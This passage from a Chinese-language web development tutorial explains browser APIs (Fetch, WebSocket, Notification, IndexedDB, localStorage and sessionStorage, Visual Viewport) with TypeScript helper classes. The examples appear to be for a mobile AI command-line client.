    headers: {
        'Content-Type': 'application/json',  // 内容类型
        'Authorization': 'Bearer xxx',       // 认证令牌
        'Accept': 'application/json',        // 接受的响应类型
    },
    body: JSON.stringify({              // 请求体（POST/PUT）
        name: '张三',
        email: 'zhangsan@example.com',
    }),
    credentials: 'same-origin',         // Cookie 策略
    signal: AbortSignal.timeout(5000),  // 5秒超时
    cache: 'no-cache',                  // 缓存策略
});
```

### 响应处理

```javascript
// Response 对象的方法
const response = await fetch('https://api.example.com/data');

// 获取不同格式的数据
const text = await response.text();         // 文本
const json = await response.json();         // JSON
const blob = await response.blob();         // 二进制大对象
const arrayBuffer = await response.arrayBuffer(); // 二进制缓冲区
const formData = await response.formData(); // 表单数据

// 响应状态
response.status;      // 状态码（200, 404, 500 等）
response.statusText;  // 状态文本（"OK", "Not Found"）
response.ok;          // 是否成功（status 在 200-299 之间）
response.redirected;  // 是否经过重定向
response.url;         // 最终 URL

// 响应头
response.headers.get('Content-Type');   // 获取特定头
response.headers.has('Authorization');  // 检查头是否存在
for (const [key, value] of response.headers) {
    console.log(`${key}: ${value}`);    // 遍历所有头
}
```

### 请求中断

```javascript
// 使用 AbortController 中断请求
const controller = new AbortController();
const { signal } = controller;

// 发起请求
fetch('https://api.example.com/large-file', { signal })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(err => {
        if (err.name === 'AbortError') {
            console.log('请求被中断');
        } else {
            console.error('其他错误：', err);
        }
    });

// 3秒后中断请求
setTimeout(() => controller.abort(), 3000);
```

### 封装请求工具

```typescript
// 项目中的 HTTP 请求封装
interface RequestConfig {
    baseURL?: string;
    timeout?: number;
    headers?: Record<string, string>;
}

interface ApiResponse<T = any> {
    code: number;
    data: T;
    message: string;
}

class HttpClient {
    private baseURL: string;
    private defaultHeaders: Record<string, string>;
    private timeout: number;
    
    constructor(config: RequestConfig = {}) {
        this.baseURL = config.baseURL || '';
        this.timeout = config.timeout || 10000;
        this.defaultHeaders = {
            'Content-Type': 'application/json',
            ...config.headers,
        };
    }
    
    // 设置认证令牌
    setToken(token: string) {
        this.defaultHeaders['Authorization'] = `Bearer ${token}`;
    }
    
    // 核心请求方法
    async request<T>(
        method: string,
        url: string,
        data?: any,
        options: RequestInit = {}
    ): Promise<ApiResponse<T>> {
        const fullURL = `${this.baseURL}${url}`;
        const controller = new AbortController();
        
        // 超时处理
        const timeoutId = setTimeout(
            () => controller.abort(),
            this.timeout
        );
        
        try {
            const response = await fetch(fullURL, {
                method,
                headers: {
                    ...this.defaultHeaders,
                    ...options.headers,
                },
                body: data ? JSON.stringify(data) : undefined,
                signal: controller.signal,
                ...options,
            });
            
            clearTimeout(timeoutId);
            
            // 处理 HTTP 错误
            if (!response.ok) {
                const errorBody = await response.text();
                throw new HttpError(
                    response.status,
                    response.statusText,
                    errorBody
                );
            }
            
            // 解析响应
            const result: ApiResponse<T> = await response.json();
            return result;
            
        } catch (error) {
            clearTimeout(timeoutId);
            
            if (error instanceof HttpError) {
                throw error;
            }
            
            if ((error as Error).name === 'AbortError') {
                throw new Error(`请求超时（${this.timeout}ms）`);
            }
            
            throw new Error(`网络错误：${(error as Error).message}`);
        }
    }
    
    // 便捷方法
    get<T>(url: string, options?: RequestInit) {
        return this.request<T>('GET', url, undefined, options);
    }
    
    post<T>(url: string, data?: any, options?: RequestInit) {
        return this.request<T>('POST', url, data, options);
    }
    
    put<T>(url: string, data?: any, options?: RequestInit) {
        return this.request<T>('PUT', url, data, options);
    }
    
    delete<T>(url: string, options?: RequestInit) {
        return this.request<T>('DELETE', url, undefined, options);
    }
    
    // 上传文件
    async upload<T>(url: string, file: File): Promise<ApiResponse<T>> {
        const formData = new FormData();
        formData.append('file', file);
        
        return this.request<T>('POST', url, formData, {
            headers: {}  // 不设置 Content-Type，让浏览器自动设置
        });
    }
}

class HttpError extends Error {
    constructor(
        public status: number,
        public statusText: string,
        public body: string
    ) {
        super(`HTTP ${status}: ${statusText}`);
        this.name = 'HttpError';
    }
}

// 使用
const http = new HttpClient({
    baseURL: 'https://api.example.com',
    timeout: 15000,
});

// 设置认证
http.setToken('your-jwt-token');

// 发起请求
const { data } = await http.get<User[]>('/users');
const { data: newUser } = await http.post<User>('/users', {
    name: '李四',
    email: 'lisi@example.com'
});
```

### Fetch API 请求流程



## 3.2 WebSocket API

WebSocket 提供了全双工通信能力，是实时应用的基础。

### WebSocket 基础

```javascript
// 创建 WebSocket 连接
const ws = new WebSocket('wss://api.example.com/ws');

// 连接打开
ws.onopen = (event) => {
    console.log('WebSocket 连接已建立');
    
    // 发送消息
    ws.send(JSON.stringify({
        type: 'auth',
        token: 'your-jwt-token'
    }));
};

// 接收消息
ws.onmessage = (event) => {
    const data = JSON.parse(event.data);
    console.log('收到消息：', data);
    
    switch (data.type) {
        case 'terminal_output':
            displayTerminalOutput(data.content);
            break;
        case 'error':
            showError(data.message);
            break;
    }
};

// 连接关闭
ws.onclose = (event) => {
    console.log('WebSocket 连接关闭', event.code, event.reason);
    
    // 自动重连
    if (event.code !== 1000) {  // 非正常关闭
        setTimeout(() => reconnect(), 3000);
    }
};

// 连接错误
ws.onerror = (error) => {
    console.error('WebSocket 错误：', error);
};
```

### WebSocket 连接状态



### WebSocket vs HTTP 对比

| 特性 | HTTP | WebSocket |
|------|------|-----------|
| **通信方式** | 请求-响应（半双工） | 全双工 |
| **连接** | 短连接（每次请求建立） | 长连接（持续保持） |
| **服务器推送** | 不支持（需要轮询） | 原生支持 |
| **数据格式** | 文本（JSON 等） | 文本 + 二进制 |
| **头部开销** | 每次请求都有完整头部 | 握手后无头部开销 |
| **适用场景** | REST API、文件下载 | 实时聊天、游戏、终端 |
| **协议** | http:// / https:// | ws:// / wss:// |

### 带重连和心跳的 WebSocket 客户端

```typescript
// 项目中的 WebSocket 管理器
interface WebSocketConfig {
    url: string;
    protocols?: string | string[];
    reconnectInterval?: number;  // 重连间隔（ms）
    maxReconnectAttempts?: number;  // 最大重连次数
    heartbeatInterval?: number;  // 心跳间隔（ms）
    heartbeatTimeout?: number;  // 心跳超时（ms）
}

type MessageHandler = (data: any) => void;

class WebSocketManager {
    private ws: WebSocket | null = null;
    private config: Required<WebSocketConfig>;
    private reconnectAttempts = 0;
    private reconnectTimer: ReturnType<typeof setTimeout> | null = null;
    private heartbeatTimer: ReturnType<typeof setInterval> | null = null;
    private heartbeatTimeoutTimer: ReturnType<typeof setTimeout> | null = null;
    private messageHandlers = new Map<string, MessageHandler[]>();
    private isManualClose = false;
    
    constructor(config: WebSocketConfig) {
        this.config = {
            reconnectInterval: 3000,
            maxReconnectAttempts: 10,
            heartbeatInterval: 30000,
            heartbeatTimeout: 5000,
            ...config,
        };
    }
    
    // 连接
    connect() {
        if (this.ws?.readyState === WebSocket.OPEN) {
            return;
        }
        
        this.isManualClose = false;
        this.ws = new WebSocket(this.config.url, this.config.protocols);
        
        this.ws.onopen = () => {
            console.log('WebSocket 连接已建立');
            this.reconnectAttempts = 0;
            this.startHeartbeat();
            this.emit('connected');
        };
        
        this.ws.onmessage = (event) => {
            try {
                const data = JSON.parse(event.data);
                
                // 心跳响应
                if (data.type === 'pong') {
                    this.onHeartbeatResponse();
                    return;
                }
                
                // 触发消息处理器
                this.emit(data.type, data);
                this.emit('message', data);
            } catch (error) {
                console.error('消息解析错误：', error);
            }
        };
        
        this.ws.onclose = (event) => {
            console.log('WebSocket 连接关闭', event.code);
            this.stopHeartbeat();
            this.emit('disconnected', { code: event.code, reason: event.reason });
            
            // 自动重连
            if (!this.isManualClose && this.reconnectAttempts < this.config.maxReconnectAttempts) {
                this.scheduleReconnect();
            }
        };
        
        this.ws.onerror = (error) => {
            console.error('WebSocket 错误：', error);
            this.emit('error', error);
        };
    }
    
    // 发送消息
    send(data: any) {
        if (this.ws?.readyState !== WebSocket.OPEN) {
            console.error('WebSocket 未连接');
            return false;
        }
        
        this.ws.send(typeof data === 'string' ? data : JSON.stringify(data));
        return true;
    }
    
    // 关闭连接
    close(code = 1000, reason = '手动关闭') {
        this.isManualClose = true;
        this.stopHeartbeat();
        this.clearReconnectTimer();
        this.ws?.close(code, reason);
    }
    
    // 事件监听
    on(event: string, handler: MessageHandler) {
        if (!this.messageHandlers.has(event)) {
            this.messageHandlers.set(event, []);
        }
        this.messageHandlers.get(event)!.push(handler);
    }
    
    off(event: string, handler: MessageHandler) {
        const handlers = this.messageHandlers.get(event);
        if (handlers) {
            const index = handlers.indexOf(handler);
            if (index > -1) handlers.splice(index, 1);
        }
    }
    
    private emit(event: string, data?: any) {
        const handlers = this.messageHandlers.get(event);
        if (handlers) {
            handlers.forEach(handler => handler(data));
        }
    }
    
    // 心跳机制
    private startHeartbeat() {
        this.stopHeartbeat();
        this.heartbeatTimer = setInterval(() => {
            this.send({ type: 'ping' });
            
            // 设置超时
            this.heartbeatTimeoutTimer = setTimeout(() => {
                console.warn('心跳超时，关闭连接');
                this.ws?.close(4000, '心跳超时');
            }, this.config.heartbeatTimeout);
        }, this.config.heartbeatInterval);
    }
    
    private onHeartbeatResponse() {
        if (this.heartbeatTimeoutTimer) {
            clearTimeout(this.heartbeatTimeoutTimer);
            this.heartbeatTimeoutTimer = null;
        }
    }
    
    private stopHeartbeat() {
        if (this.heartbeatTimer) {
            clearInterval(this.heartbeatTimer);
            this.heartbeatTimer = null;
        }
        if (this.heartbeatTimeoutTimer) {
            clearTimeout(this.heartbeatTimeoutTimer);
            this.heartbeatTimeoutTimer = null;
        }
    }
    
    // 重连机制
    private scheduleReconnect() {
        this.reconnectAttempts++;
        const delay = Math.min(
            this.config.reconnectInterval * Math.pow(1.5, this.reconnectAttempts - 1),
            30000  // 最大 30 秒
        );
        
        console.log(`将在 ${delay}ms 后第 ${this.reconnectAttempts} 次重连`);
        this.emit('reconnecting', { attempt: this.reconnectAttempts, delay });
        
        this.reconnectTimer = setTimeout(() => {
            this.connect();
        }, delay);
    }
    
    private clearReconnectTimer() {
        if (this.reconnectTimer) {
            clearTimeout(this.reconnectTimer);
            this.reconnectTimer = null;
        }
    }
    
    get isConnected(): boolean {
        return this.ws?.readyState === WebSocket.OPEN;
    }
}

// 使用示例
const wsManager = new WebSocketManager({
    url: 'wss://api.example.com/ws',
    reconnectInterval: 3000,
    heartbeatInterval: 30000,
});

// 监听事件
wsManager.on('connected', () => {
    console.log('已连接');
    // 发送认证
    wsManager.send({ type: 'auth', token: getToken() });
});

wsManager.on('terminal_output', (data) => {
    terminal.write(data.content);
});

wsManager.on('reconnecting', ({ attempt, delay }) => {
    showStatus(`正在重连（第 ${attempt} 次）...`);
});

wsManager.on('disconnected', () => {
    showStatus('连接已断开');
});

// 建立连接
wsManager.connect();
```

### WebSocket 通信流程图



## 3.3 Notification API

Notification API 允许网页向用户发送系统通知。

```javascript
// 请求通知权限
async function requestNotificationPermission() {
    // 检查浏览器是否支持
    if (!('Notification' in window)) {
        console.log('此浏览器不支持通知');
        return false;
    }
    
    // 检查已有权限
    if (Notification.permission === 'granted') {
        return true;
    }
    
    if (Notification.permission === 'denied') {
        console.log('用户已拒绝通知权限');
        return false;
    }
    
    // 请求权限
    const permission = await Notification.requestPermission();
    return permission === 'granted';
}

// 发送通知
function sendNotification(title, options = {}) {
    if (Notification.permission !== 'granted') {
        return;
    }
    
    const notification = new Notification(title, {
        body: options.body || '',
        icon: options.icon || '/icons/notification.png',
        badge: options.badge || '/icons/badge.png',
        image: options.image,
        tag: options.tag || 'default',  // 相同 tag 会替换旧通知
        silent: options.silent || false,
        requireInteraction: options.requireInteraction || false,
        data: options.data || {},
    });
    
    // 点击通知
    notification.onclick = (event) => {
        event.preventDefault();
        window.focus();
        
        // 执行自定义操作
        if (options.onClick) {
            options.onClick(notification.data);
        }
        
        notification.close();
    };
    
    // 关闭通知
    notification.onclose = () => {
        console.log('通知已关闭');
    };
    
    // 显示错误
    notification.onerror = (error) => {
        console.error('通知错误：', error);
    };
    
    return notification;
}

// 在项目中的使用
sendNotification('命令执行完成', {
    body: 'ls -la 命令已执行完毕',
    tag: 'command-complete',
    data: { sessionId: 'abc123' },
    onClick: (data) => {
        // 跳转到对应的终端会话
        window.location.hash = `#terminal/${data.sessionId}`;
    }
});
```

### Service Worker 中的通知（后台通知）

```javascript
// 在 Service Worker 中发送通知
// sw.js
self.addEventListener('push', (event) => {
    const data = event.data?.json() || {};
    
    event.waitUntil(
        self.registration.showNotification(data.title || '新消息', {
            body: data.body || '',
            icon: '/icons/icon-192.png',
            badge: '/icons/badge-72.png',
            actions: [
                { action: 'open', title: '打开' },
                { action: 'dismiss', title: '忽略' },
            ],
            data: data.url || '/',
            vibrate: [200, 100, 200],  // 振动模式
        })
    );
});

// 处理通知点击
self.addEventListener('notificationclick', (event) => {
    event.notification.close();
    
    if (event.action === 'dismiss') return;
    
    event.waitUntil(
        clients.matchAll({ type: 'window' }).then(clientList => {
            // 如果已有窗口，聚焦它
            for (const client of clientList) {
                if (client.url.includes(event.notification.data) && 'focus' in client) {
                    return client.focus();
                }
            }
            // 否则打开新窗口
            return clients.openWindow(event.notification.data);
        })
    );
});
```

## 3.4 IndexedDB

IndexedDB 是浏览器内置的 NoSQL 数据库，适合存储大量结构化数据。

### IndexedDB 核心概念



### IndexedDB vs 其他存储方式

| 特性 | Cookie | localStorage | sessionStorage | IndexedDB |
|------|--------|-------------|---------------|-----------|
| **存储大小** | 4KB | 5-10MB | 5-10MB | 无限制（数百 MB） |
| **数据类型** | 字符串 | 字符串 | 字符串 | 任意类型 |
| **过期时间** | 可设置 | 永久 | 会话结束 | 永久 |
| **API** | 简单 | 简单 | 简单 | 复杂 |
| **索引** | ❌ | ❌ | ❌ | ✅ |
| **事务** | ❌ | ❌ | ❌ | ✅ |
| **异步** | 同步 | 同步 | 同步 | 异步 |
| **Web Worker** | ❌ | ❌ | ❌ | ✅ |
| **适用场景** | 认证标识 | 简单配置 | 临时数据 | 大量结构化数据 |

### IndexedDB 基础操作

```typescript
// IndexedDB 封装
class IndexedDBHelper {
    private dbName: string;
    private version: number;
    private db: IDBDatabase | null = null;
    
    constructor(dbName: string, version = 1) {
        this.dbName = dbName;
        this.version = version;
    }
    
    // 打开数据库
    async open(stores: { name: string; keyPath?: string; indexes?: string[] }[]) {
        return new Promise<IDBDatabase>((resolve, reject) => {
            const request = indexedDB.open(this.dbName, this.version);
            
            // 版本升级时创建对象仓库
            request.onupgradeneeded = (event) => {
                const db = (event.target as IDBOpenDBRequest).result;
                
                for (const store of stores) {
                    if (!db.objectStoreNames.contains(store.name)) {
                        const objectStore = db.createObjectStore(store.name, {
                            keyPath: store.keyPath || 'id',
                            autoIncrement: !store.keyPath,
                        });
                        
                        // 创建索引
                        if (store.indexes) {
                            for (const indexName of store.indexes) {
                                objectStore.createIndex(indexName, indexName, {
                                    unique: false,
                                });
                            }
                        }
                    }
                }
            };
            
            request.onsuccess = (event) => {
                this.db = (event.target as IDBOpenDBRequest).result;
                resolve(this.db);
            };
            
            request.onerror = (event) => {
                reject((event.target as IDBOpenDBRequest).error);
            };
        });
    }
    
    // 获取事务和对象仓库
    private getStore(storeName: string, mode: IDBTransactionMode = 'readonly') {
        if (!this.db) {
            throw new Error('数据库未打开');
        }
        const transaction = this.db.transaction(storeName, mode);
        return transaction.objectStore(storeName);
    }
    
    // 添加数据
    async add<T>(storeName: string, data: T): Promise<IDBValidKey> {
        return new Promise((resolve, reject) => {
            const store = this.getStore(storeName, 'readwrite');
            const request = store.add(data);
            
            request.onsuccess = () => resolve(request.result);
            request.onerror = () => reject(request.error);
        });
    }
    
    // 更新数据
    async put<T>(storeName: string, data: T): Promise<IDBValidKey> {
        return new Promise((resolve, reject) => {
            const store = this.getStore(storeName, 'readwrite');
            const request = store.put(data);
            
            request.onsuccess = () => resolve(request.result);
            request.onerror = () => reject(request.error);
        });
    }
    
    // 获取数据（按主键）
    async get<T>(storeName: string, key: IDBValidKey): Promise<T | undefined> {
        return new Promise((resolve, reject) => {
            const store = this.getStore(storeName);
            const request = store.get(key);
            
            request.onsuccess = () => resolve(request.result);
            request.onerror = () => reject(request.error);
        });
    }
    
    // 获取所有数据
    async getAll<T>(storeName: string): Promise<T[]> {
        return new Promise((resolve, reject) => {
            const store = this.getStore(storeName);
            const request = store.getAll();
            
            request.onsuccess = () => resolve(request.result);
            request.onerror = () => reject(request.error);
        });
    }
    
    // 按索引查询
    async getByIndex<T>(
        storeName: string,
        indexName: string,
        value: IDBValidKey
    ): Promise<T[]> {
        return new Promise((resolve, reject) => {
            const store = this.getStore(storeName);
            const index = store.index(indexName);
            const request = index.getAll(value);
            
            request.onsuccess = () => resolve(request.result);
            request.onerror = () => reject(request.error);
        });
    }
    
    // 删除数据
    async delete(storeName: string, key: IDBValidKey): Promise<void> {
        return new Promise((resolve, reject) => {
            const store = this.getStore(storeName, 'readwrite');
            const request = store.delete(key);
            
            request.onsuccess = () => resolve();
            request.onerror = () => reject(request.error);
        });
    }
    
    // 清空对象仓库
    async clear(storeName: string): Promise<void> {
        return new Promise((resolve, reject) => {
            const store = this.getStore(storeName, 'readwrite');
            const request = store.clear();
            
            request.onsuccess = () => resolve();
            request.onerror = () => reject(request.error);
        });
    }
    
    // 计数
    async count(storeName: string): Promise<number> {
        return new Promise((resolve, reject) => {
            const store = this.getStore(storeName);
            const request = store.count();
            
            request.onsuccess = () => resolve(request.result);
            request.onerror = () => reject(request.error);
        });
    }
    
    // 使用游标遍历
    async forEach<T>(
        storeName: string,
        callback: (item: T) => void
    ): Promise<void> {
        return new Promise((resolve, reject) => {
            const store = this.getStore(storeName);
            const request = store.openCursor();
            
            request.onsuccess = (event) => {
                const cursor = (event.target as IDBRequest).result;
                if (cursor) {
                    callback(cursor.value);
                    cursor.continue();
                } else {
                    resolve();
                }
            };
            
            request.onerror = () => reject(request.error);
        });
    }
    
    // 关闭数据库
    close() {
        this.db?.close();
        this.db = null;
    }
}

// 使用示例
const db = new IndexedDBHelper('AI-CLI-Mobile', 1);

// 初始化
await db.open([
    {
        name: 'sessions',
        keyPath: 'id',
        indexes: ['createdAt', 'status'],
    },
    {
        name: 'commands',
        keyPath: 'id',
        indexes: ['sessionId', 'timestamp'],
    },
    {
        name: 'settings',
        keyPath: 'key',
    },
]);

// 保存会话
await db.add('sessions', {
    id: 'session-1',
    name: '开发服务器',
    status: 'active',
    createdAt: Date.now(),
});

// 查询会话
const session = await db.get('sessions', 'session-1');

// 按状态查询
const activeSessions = await db.getByIndex('sessions', 'status', 'active');

// 保存命令历史
await db.add('commands', {
    id: `cmd-${Date.now()}`,
    sessionId: 'session-1',
    command: 'ls -la',
    timestamp: Date.now(),
});

// 遍历所有命令
await db.forEach('commands', (cmd) => {
    console.log(cmd.command);
});
```

## 3.5 localStorage vs sessionStorage

### Web Storage API

```typescript
// Storage 管理工具
class StorageManager {
    private storage: Storage;
    private prefix: string;
    
    constructor(type: 'local' | 'session' = 'local', prefix = 'ai-cli-') {
        this.storage = type === 'local' ? localStorage : sessionStorage;
        this.prefix = prefix;
    }
    
    private getKey(key: string): string {
        return `${this.prefix}${key}`;
    }
    
    // 设置值（支持对象）
    set<T>(key: string, value: T, ttl?: number): void {
        const data = {
            value,
            timestamp: Date.now(),
            ttl: ttl ? ttl * 1000 : null,  // TTL 转为毫秒
        };
        
        try {
            this.storage.setItem(this.getKey(key), JSON.stringify(data));
        } catch (error) {
            if ((error as DOMException).name === 'QuotaExceededError') {
                console.error('存储空间已满');
                this.cleanup();
            }
        }
    }
    
    // 获取值
    get<T>(key: string): T | null {
        try {
            const raw = this.storage.getItem(this.getKey(key));
            if (!raw) return null;
            
            const data = JSON.parse(raw);
            
            // 检查是否过期
            if (data.ttl && Date.now() - data.timestamp > data.ttl) {
                this.remove(key);
                return null;
            }
            
            return data.value as T;
        } catch {
            return null;
        }
    }
    
    // 删除
    remove(key: string): void {
        this.storage.removeItem(this.getKey(key));
    }
    
    // 清空所有带前缀的项
    clear(): void {
        const keysToRemove: string[] = [];
        
        for (let i = 0; i < this.storage.length; i++) {
            const key = this.storage.key(i);
            if (key?.startsWith(this.prefix)) {
                keysToRemove.push(key);
            }
        }
        
        keysToRemove.forEach(key => this.storage.removeItem(key));
    }
    
    // 清理过期项
    cleanup(): void {
        const now = Date.now();
        const keysToRemove: string[] = [];
        
        for (let i = 0; i < this.storage.length; i++) {
            const key = this.storage.key(i);
            if (!key?.startsWith(this.prefix)) continue;
            
            try {
                const raw = this.storage.getItem(key);
                if (!raw) continue;
                
                const data = JSON.parse(raw);
                if (data.ttl && now - data.timestamp > data.ttl) {
                    keysToRemove.push(key);
                }
            } catch {
                keysToRemove.push(key);
            }
        }
        
        keysToRemove.forEach(key => this.storage.removeItem(key));
    }
    
    // 获取所有键
    keys(): string[] {
        const result: string[] = [];
        for (let i = 0; i < this.storage.length; i++) {
            const key = this.storage.key(i);
            if (key?.startsWith(this.prefix)) {
                result.push(key.replace(this.prefix, ''));
            }
        }
        return result;
    }
    
    // 检查键是否存在
    has(key: string): boolean {
        return this.get(key) !== null;
    }
}

// 使用示例
const localStore = new StorageManager('local', 'ai-cli-');
const sessionStore = new StorageManager('session', 'ai-cli-');

// 持久化配置（localStorage）
localStore.set('theme', 'dark');
localStore.set('server-config', {
    url: 'https://server.example.com',
    port: 3000,
});

// 带 TTL 的缓存（1小时过期）
localStore.set('api-cache-users', users, 3600);

// 临时会话数据（sessionStorage）
sessionStore.set('current-session-id', 'abc123');
sessionStore.set('terminal-scroll-position', 1500);
```

### localStorage vs sessionStorage 对比

| 特性 | localStorage | sessionStorage |
|------|-------------|---------------|
| **生命周期** | 永久（除非手动删除） | 标签页关闭即清除 |
| **作用域** | 同源的所有标签页共享 | 仅当前标签页 |
| **容量** | 5-10MB | 5-10MB |
| **API** | 完全相同 | 完全相同 |
| **适用场景** | 用户配置、主题、缓存 | 表单数据、滚动位置 |

## 3.6 Visual Viewport API

Visual Viewport API 提供了视口的精确信息，对移动端适配至关重要。

```typescript
// Visual Viewport API
const viewport = window.visualViewport;

if (viewport) {
    console.log('视口尺寸：', viewport.width, viewport.height);
    console.log('视口偏移：', viewport.offsetLeft, viewport.offsetTop);
    console.log('缩放比例：', viewport.scale);
    
    // 监听视口变化
    viewport.addEventListener('resize', () => {
